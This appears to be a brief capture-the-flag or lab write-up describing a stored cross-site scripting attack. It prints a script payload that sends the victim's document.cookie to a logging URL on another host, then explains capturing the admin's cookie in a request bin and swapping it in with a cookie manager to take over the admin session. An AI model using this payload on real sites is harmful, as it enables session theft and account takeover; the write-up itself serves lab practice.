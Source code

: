 
<script>document.write('Hello<img src="http://192.168.2.110/log.php?lol=' + document.cookie+'" width="0" height="0">');</script>


and then login with admin

when admin enter our aera  => cookie was arrived to request bin

=> we have to change admin cookie to our cookie with cookie manager 

=> and then go 

#### Done